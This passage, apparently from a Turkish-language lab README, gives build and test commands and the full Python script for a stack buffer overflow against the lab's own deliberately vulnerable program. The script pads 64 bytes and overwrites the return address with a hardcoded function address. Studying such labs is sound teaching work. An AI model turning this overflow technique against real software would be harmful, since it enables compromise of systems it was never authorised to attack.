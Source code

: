 ### Derleme ve Test
```bash
# Laboratuvarı derle
./compile_linux.sh

# Test et
./test_lab.sh

# İnteraktif modda çalıştır
./compiled/$(uname -m)/vulnerable_code

# Exploit scriptini çalıştır
python3 source_code/exploit.py
```

### Sömürü Kodunun Tam Hali

```python
import struct
import subprocess
import sys

# Zafiyetli programın adı
VICTIM_PROGRAM = "./compiled/$(uname -m)/vulnerable_code"

# 1. Adım'da objdump ile bulduğumuz ve HİÇ DEĞİŞMEYECEK olan statik adres.
# Siz de kendi sisteminizde bulduğunuz adresi buraya yazmalısınız!
HARDCODED_ADDRESS = 0x401166

PADDING_SIZE = 64

def main():
    print("--- [SALDIRGAN] Python Exploit (Statik Adres ile) Baslatildi ---")
    
    try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] HATA: '{VICTIM_PROGRAM}' bulunamadi. C++ kodunu derlediniz mi?")
        sys.exit(1)
        
    print(f"[*] Hedef adres statik olarak biliniyor: {hex(HARDCODED_ADDRESS)}")
    
    # Payload'ı SABİT adres ile oluştur
    padding = b'A' * PADDING_SIZE
    overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
    payload = padding + overwrite_address
    
    print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
    print("[*] Payload kurban programa gonderiliyor...")
    
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

    print("\n--- Kurban Programdan Gelen Cikti ---")
    print(stdout_output)
    print("--- Kurbandan Gelen Hata Ciktisi (varsa) ---")
    print(stderr_output)
    print("--- Exploit Tamamlandi ---")
    
    if "Zafiyet Basariyla Somuruldu" in stdout_output:
        print("\n[+] Zafiyet basariyla istismar edildi!")
```